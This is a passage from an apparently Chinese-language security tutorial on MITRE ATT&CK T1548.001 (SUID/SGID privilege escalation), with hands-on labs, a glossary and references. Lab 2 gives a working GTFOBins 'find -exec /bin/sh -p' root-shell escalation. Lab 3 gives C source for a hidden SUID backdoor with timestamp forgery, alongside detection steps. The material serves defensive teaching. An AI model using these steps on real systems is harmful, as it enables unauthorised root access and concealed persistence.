- 应用最小权限原则：定期审查 `sudoers` 配置，能用 sudo 完成的工作不要用 SUID 实现
- 容器构建阶段扫描基础镜像中的 SUID 文件并清理：在 Dockerfile 中添加 `RUN find / -perm -4000 -type f -exec chmod u-s {} + ; find / -perm -2000 -type f -exec chmod g-s {} +`

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**。推荐使用 Ubuntu 22.04 LTS 虚拟机（VMware/VirtualBox），实验前先做快照以便回滚。

### 实验1：理解 SUID 原理（初级，15 分钟）

**目标**：理解 SUID 位的视觉效果与执行时的权限变化

**步骤**：

```bash
# 1. 创建一个简单的 C 程序，打印当前进程的 UID 和 EUID
cat > /tmp/whoami_suid.c << 'EOF'
#include <stdio.h>
#include <unistd.h>
int main() {
    printf("Real UID: %d\n", getuid());
    printf("Effective UID: %d\n", geteuid());
    return 0;
}
EOF

# 2. 编译
gcc -o /tmp/whoami_suid /tmp/whoami_suid.c

# 3. 用 root 设置 SUID 位
sudo chown root:root /tmp/whoami_suid
sudo chmod 4755 /tmp/whoami_suid

# 4. 切换到普通用户执行
su - testuser
/tmp/whoami_suid
# 预期输出：
# Real UID: 1001         <- 实际用户 ID（testuser）
# Effective UID: 0       <- 有效用户 ID（root，因为 SUID）

# 5. 用 ls -l 验证 SUID 位
ls -l /tmp/whoami_suid
# 预期输出：-rwsr-xr-x 1 root root ... /tmp/whoami_suid
# 注意第 4 个字符是 's'（原本是 'x'），表示 SUID 已设置

# 6. 移除 SUID 位验证对比
exit  # 回到 root
sudo chmod u-s /tmp/whoami_suid
su - testuser
/tmp/whoami_suid
# 预期输出：
# Real UID: 1001
# Effective UID: 1001    <- SUID 移除后 EUID 等于 RUID
```

**学习要点**：SUID 位的视觉效果（`s` 替代 `x`）、RUID 与 EUID 的区别、chmod 设置 SUID 的两种方式（`4755` 数字 vs `u+s` 字符）

### 实验2：实战 SUID 提权（中级，30 分钟）

**目标**：模拟攻击者利用 SUID 提权的完整流程

**步骤**：

```bash
# 1. 模拟管理员错误配置：给 find 设置 SUID 位（典型运维失误）
sudo chmod u+s /usr/bin/find

# 2. 切换到普通用户，模拟低权限立足
su - testuser

# 3. 枚举 SUID 文件
find / -perm -4000 -type f 2>/dev/null
# 注意到 /usr/bin/find 出现在列表中

# 4. 对照 GTFOBins 查找 find 的 SUID 利用方式
# 访问 https://gtfobins.github.io/gtfobins/find/#suid

# 5. 利用 SUID find 提权
find . -exec /bin/sh -p \; -quit
# 成功获得 # 提示符（root shell）

# 6. 验证权限
id
# 预期：uid=0(root) gid=0(root) groups=0(root),1001(testuser)

# 7. 退出 root shell
exit

# 8. 实验后清理
exit  # 回到 root
sudo chmod u-s /usr/bin/find
```

**学习要点**：SUID 枚举命令、GTFOBins 使用方法、`bash -p` / `sh -p` 的必要性

### 实验3：植入 SUID 后门与检测（高级，45 分钟）

**目标**：模拟攻击者植入 SUID 后门，并验证检测规则

**步骤**：

```bash
# === A. 攻击者侧：植入后门 ===

# 1. 编写后门程序
cat > /tmp/backdoor.c << 'EOF'
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
EOF

# 2. 编译并设置 SUID（假设已有 root）
gcc -o /usr/local/bin/.hidden_backdoor /tmp/backdoor.c
chown root:root /usr/local/bin/.hidden_backdoor
chmod 4755 /usr/local/bin/.hidden_backdoor
# 修改时间戳隐藏
touch -r /etc/passwd /usr/local/bin/.hidden_backdoor

# === B. 防御者侧：检测后门 ===

# 3. 全盘扫描 SUID 文件
find / -perm -4000 -type f 2>/dev/null
# 应当能看到 /usr/local/bin/.hidden_backdoor

# 4. 使用 stat 查看详细权限和时间戳
stat /usr/local/bin/.hidden_backdoor

# 5. 检查 auditd 日志中的 chmod 设置 SUID 操作
ausearch -k suid_set | tail -20

# 6. 对比基线（如果有 AIDE）
aide --check

# === C. 清理 ===
rm /usr/local/bin/.hidden_backdoor /tmp/backdoor.c
```

**学习要点**：SUID 后门的实现、隐藏文件名与时间戳伪造、检测手段对比（find vs auditd vs AIDE）

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE 公司维护的攻击技术知识库，像一本"黑客手法百科全书" |
| **Setuid 和 Setgid** | T1548.001，本技术——滥用 Linux/macOS 的 SUID/SGID 特权位提权 |
| **SUID（Set-User-ID）** | 文件权限位（4000），设置后程序以文件属主身份执行，而非执行者身份 |
| **SGID（Set-Group-ID）** | 文件权限位（2000），设置后程序以文件属组身份执行 |
| **Sticky bit** | 文件权限位（1000），目录设置后仅文件属主可删除该目录下文件（典型用于 /tmp） |
| **EUID（Effective UID）** | 进程的有效用户 ID，决定进程访问资源时被检查的权限身份 |
| **RUID（Real UID）** | 进程的真实用户 ID，标识启动该进程的实际用户 |
| **特权进程** | EUID=0 的进程，拥有 root 级别的系统访问权限 |
| **滥用权限提升控制机制** | T1548，本子技术所属的父技术类别（含 UAC 绕过、sudo 缓存等） |
| **权限提升** | 攻击链中的一个阶段（TA0004），目标是获取更高权限 |
| **GTFOBins** | "Get The F*** Out Binaries"——记录 Unix 二进制可被滥用于提权的开源数据库 |
| **EDR** | 端点检测与响应，部署在终端上的安全监控软件 |
| **auditd** | Linux 内核审计子系统用户态守护进程，记录系统调用与文件操作 |
| **AIDE** | Advanced Intrusion Detection Environment，Linux 文件完整性监控工具 |
| **Falco** | CNCF 项目，容器与 Kubernetes 运行时安全监控工具 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1548 - 滥用权限提升控制机制](../T1548-Abuse-Elevation-Control-Mechanism.md)

### MITRE ATT&CK 官方引用的真实软件

| 软件 ID | 软件名称 | 关联组织 | 使用方式 |
|---------|---------|---------|---------|
| S0276 | [Keydnap](https://attack.mitre.org/software/S0276) | 未归因 | 在 macOS 恶意二进制上添加 SUID 标志位以便未来提权 |
| S0401 | [Exaramel for Linux](https://attack.mitre.org/software/S0401) | Sandworm（APT44） | 通过特殊 SUID 二进制执行高权限命令 |

### 与本子技术相关的检测策略

| 检测 ID | 检测名称 |
|---------|---------|
| DET0110 | [Setuid/Setgid Privilege Abuse Detection (Linux/macOS)](https://attack.mitre.org/detectionstrategies/DET0110) |

### 与本子技术相关的缓解措施

| 缓解 ID | 缓解名称 |
|---------|---------|
| M1028 | [Operating System Configuration](https://attack.mitre.org/mitigations/M1028) |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - Setuid and Setgid (T1548.001)](https://attack.mitre.org/techniques/T1548/001/) - 本技术官方页面
- [MITRE ATT&CK - Abuse Elevation Control Mechanism (T1548)](https://attack.mitre.org/techniques/T1548/) - 父技术页面
- [MITRE ATT&CK - Privilege Escalation (TA0004)](https://attack.mitre.org/tactics/TA0004/) - 所属战术页面
- [Linux Programmer's Manual - setuid(2)](http://man7.org/linux/man-pages/man2/setuid.2.html) - setuid 系统调用官方手册
- [Linux Programmer's Manual - chmod(1)](http://man7.org/linux/man-pages/man1/chmod.1.html) - chmod 命令手册

### 📰 安全报告（真实攻击）

- [WeLiveSecurity - New OSX/Keydnap malware is hungry for credentials (2016)](https://www.welivesecurity.com/2016/07/06/new-osxkeydnap-malware-hungry-credentials/) - Keydnap 恶意软件分析报告
- [ANSSI - SANDWORM INTRUSION SET CAMPAIGN TARGETING CENTREON SYSTEMS (2021)](https://www.cert.ssi.gouv.fr/uploads/CERTFR-2021-CTI-005.pdf) - Sandworm APT 组织使用 Exaramel for Linux 的分析报告

### 🔧 工具与资源（动手试试）

- [GTFOBins - SUID 利用清单](https://gtfobins.github.io/#+suid) - Unix 二进制 SUID 滥用数据库
- [Atomic Red Team - T1548.001 测试用例](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1548.001/T1548.001.yaml) - 自动化检测规则测试
- [LinPEAS](https://github.com/carlospolop/PEASS-ng) - Linux 提权枚举脚本（含 SUID 扫描）
- [HackTricks - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation) - Linux 提权技巧大全
- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化工具

### 📚 学习资料（深入了解）

- [MITRE ATT&CK 知识库资源中心](https://attack.mitre.org/resources/) - ATT&CK 官方资源
- [Linux Capability Manual - capabilities(7)](http://man7.org/linux/man-pages/man7/capabilities.7.html) - Linux capabilities 机制（与 SUID 互补的提权路径）
- [The Linux Programming Interface - Chapter 9 (Process Credentials)](https://man7.org/tlpi/) - Michael Kerrisk 著，深入讲解进程凭证
- [CIS Ubuntu Linux Benchmark](https://www.cisecurity.org/benchmark/ubuntu_linux) - CIS 加固基线（含 SUID 文件管理要求）
- [NIST SP 800-53 - AC-6 Least Privilege](https://csrc.nist.gov/projects/catalog) - 最小权限原则标准
